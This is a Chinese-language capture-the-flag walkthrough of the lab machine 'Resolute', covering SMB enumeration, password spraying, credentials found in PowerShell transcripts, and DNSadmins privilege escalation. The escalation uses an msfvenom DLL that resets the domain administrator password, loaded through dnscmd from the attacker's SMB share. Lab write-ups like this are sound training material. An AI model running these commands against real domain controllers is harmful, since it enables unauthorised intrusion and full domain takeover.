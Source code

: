 ```yaml
---
description: Medium / 枚举 / DNSadmins提权
---
```


# ✔️ Resolute

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA resolute 10.129.176.63 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

* Nmap扫描结果中已获得了目标域名：<mark style="color:red;">**megabank.local**</mark>&#x20;

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

* 因为没有任何Web页面的开放端口，所以直接进行针对SMB/RPC服务的一系列的匿名登录操作，看看是否可以找到些什么信息：

```bash
# 可以成功的匿名登录，但是没有任何信息返回：
smbclient -N -L 10.129.176.63
smbmap -H 10.129.176.63
nmap --script smb-vuln* -p 139,445 10.129.176.63
rpcclient 10.129.176.63
rpcclient -U '' 10.129.176.63
```

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 之前一直没啥大用的enum4linux这次表现不错，收集到了很多有用的信息，如目标上所有的用户名还有密码策略：

```bash
enum4linux 10.129.176.63
```

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
后面复盘时意识到，此处密码策略中的Account Lockout Threshold: None，这意味着可以是用密码暴破而不用担心账户被锁定，是否有意引导我进“兔子洞”？！因为本例中的所有凭证都无需暴破。
{% endhint %}

* 在enum4linux的输出结果中，就已经找到了一个有效凭证：<mark style="color:red;">**Marko Novak : Welcome123!**</mark>

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

* 将刚刚收集到的所有用户名全部整理成一份username.txt文件，待后续使用：

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

* 用Kerbrute先过一遍这个username列表，看看哪些用户名是域内有效的。29个用户名25个有效，太多了，看起来不太对，应该不是这么用的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.176.63 -d megabank.local username.txt
```

<figure><img src="../../.gitbook/assets/12 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (7).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec和刚才收集到的有效凭证登录一下目标系统的SMB服务：

```bash
crackmapexec smb 10.129.96.155 -u marko -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/14 (6).png" alt=""><figcaption></figcaption></figure>

```bash
evil-winrm -i 10.129.96.155 -u marko -p Welcome123!
```

<figure><img src="../../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

* 几次尝试确认自己没有输错后，发现该账户确实登录不上去，决定密码喷洒来找出是否还有其他用户账号也是用的这个密码：

```bash
crackmapexec smb 10.129.96.155 -u username.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/15 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (5).png" alt=""><figcaption></figcaption></figure>

* 找到了一个新的有效凭证：<mark style="color:red;">**melanie:Welcome123!**</mark>

### GET SHELL

* 使用evil-winrm和新的凭证登录成功：

```bash
evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举无果后，决定上传winPEAS进行信息收集：

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

* winPEAS也没什么收获，上传sharphound收集，用bloodhound分析：

<figure><img src="../../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

* 至此，仍然无任何明显收获，应该是方向错了。决定从头开始枚举，列出了之前忽略掉的隐藏目录PSTranscripts：

```powershell
dir -force
```

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

* 找到了一个txt文件，查看后貌似是一个日志记录的文件，是关于用户ryan的：

<figure><img src="../../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

* 同时也在这个txt文件中发现了用户<mark style="color:red;">**ryan**</mark>的登录凭证：<mark style="color:red;">**Serv3r4Admin4cc123!**</mark>

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

* 使用该凭证登录ryan账户后，枚举一下这个ryan的相关信息：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 在ryan账户下，发现了一个note.txt文档，像是一个备忘录之类的文档，没看出什么实际作用：

<figure><img src="../../.gitbook/assets/32.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 至此无法再继续下去，看提示后知道此处是DNSadmins滥用导致的提权攻击，才注意到ryan账户是DNSadmins组的成员账户，而该组成员是有权向目标DNS写入文件的。
* 使用msfvenom制作一个DLL文件，其中包含了自定义的administrator的登录密码，然后在kali本地开启smbserver：

```bash
msfvenom -p windows/x64/exec cmd='net user administrator fiii123 /domain' -f dll > resolute.dll
```

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

```bash
# 开启smbserver:
python3 smbserver.py share ./
```

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

* 在目标系统上下载这个DLL文件，重启一下DNS服务，该DLL文件即可生效：

```bash
cmd /c dnscmd localhost /config /serverlevelplugindll \10.10.16.12\share\resolute.dll
```

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

* 使用psexec.py和刚才自定义的新的administrator的密码登录后，成功ROOT：

<figure><img src="../../.gitbook/assets/36 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段不难，常规的信息收集之后就能拿到。提权阶段涉及到了我的盲点，第一次遇到DNSadmins提权，查阅了一些提示和技术解析的文章后，成功root。

(本例机器中途重置过，因此IP地址有所改变，但不影响其利用过程和结果)
{% endhint %}



